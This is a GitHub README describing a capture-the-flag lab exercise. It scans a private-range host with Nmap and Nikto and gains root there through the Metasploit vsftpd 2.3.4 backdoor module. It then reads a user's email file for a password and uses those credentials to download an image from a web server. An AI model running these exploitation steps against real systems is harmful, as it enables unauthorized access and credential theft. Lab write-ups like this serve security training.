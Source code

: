 Capture the Flag (CTF) Challenges

This repository contains a comprehensive breakdown of a **Capture the Flag (CTF)** exercise. The project demonstrates practical skills in vulnerability exploitation, sensitive data extraction, and network traffic analysis through three well-defined tasks.

---

📜 **Overview**

Tasks
1. **Compromise the Target Host**  
   Identify and exploit a known vulnerability to gain filesystem access.

2. **Extract the Password from the Email File**  
   Locate and extract a password from an email file stored on the compromised host.

3. **Download the Top-Secret Image**  
   Identify the webserver hosting a confidential image, authenticate, and download the file.

---

✨ **Task Details**

**Task 1: Compromise the Target Host**
- **Objective:** Exploit a vulnerability to gain root access to the target host.  
- **Key Steps:**
  1. **Reconnaissance with Nmap:**
     ```bash
     nmap -sV 192.168.14.226
     ```
     - Discovered an FTP service running `vsftpd 2.3.4`, known for its backdoor vulnerability.
  2. **Web Service Scanning with Nikto:**
     ```bash
     nikto -h 192.168.14.226
     ```
     - Verified potential vulnerabilities on the webserver.
  3. **Exploitation Using Metasploit:**
     ```bash
     msfconsole
     use exploit/unix/ftp/vsftpd_234_backdoor
     set RHOSTS 192.168.14.226
     exploit
     ```
     - Successfully exploited the backdoor and gained root access.

- **Challenges:**  
  - Identifying the correct IP and service.
  - Matching the Metasploit module to the identified vulnerability.

---

**Task 2: Extract the Password from the Email File**
- **Objective:** Locate an email file on the compromised host and extract the password.  
- **Key Steps:**
  1. **Search for Email Files:**
     ```bash
     find /home/ -name ".eml"
     ```
     - Found: `/home/kevin/mail/email001.eml`.
  2. **Extract Information:**
     ```bash
     cat /home/kevin/mail/email001.eml
     ```
     - Retrieved sender and receiver email addresses and the password.

- **Challenges:**  
  - Navigating the filesystem without prior knowledge of file locations.
  - Correctly interpreting the email contents.

---

**Task 3: Download the Top-Secret Image**
- **Objective:** Identify the webserver hosting the top-secret image, authenticate, and download the file.  
- **Key Steps:**
  1. **Network Scanning with Nmap:**
     ```bash
     nmap -p 80 192.168.14.0/24
     ```
     - Discovered multiple hosts with open HTTP ports.
  2. **Automated Target Identification Script:**
     ```bash
     ./scan_webservers.sh
     ```
     - Identified potential servers and standardized login credentials.
  3. **Traffic Analysis with Wireshark:**
     - Applied a filter:
       ```
       tcp.port == 80
       ```
     - Pinpointed the target IP: `192.168.13.220`.
  4. **Accessing and Downloading the Image:**
     - Navigated to `http://192.168.13.220` in a browser.
     - Used extracted credentials (`kevin:password`) to log in and download the image.

- **Challenges:**  
  - Narrowing down the correct webserver among many.
  - Effective use of network traffic analysis to identify the target.

---

🛠️ **Tools Used**

- **Reconnaissance:** Nmap, Nikto
- **Exploitation:** Metasploit
- **File Navigation:** Linux command-line tools (find, cat)
- **Traffic Analysis:** Wireshark
- **Automation:** Custom Bash scripts

---

💡 **Insights**

- **Exploitation Skills:** Demonstrated ability to identify and exploit known vulnerabilities using tools like Metasploit.
- **Data Extraction:** Extracted sensitive information effectively through filesystem navigation.
- **Network Traffic Analysis:** Applied Wireshark and Nmap to analyze and identify target hosts.
- **Problem-Solving:** Overcame challenges in each phase by combining technical skills with critical thinking.

---

📬 **Contact**

For collaboration or inquiries, reach out:  
**Barjinder Singh** - [barjindersingh@ou.edu](mailto:barjindersingh@ou.edu)
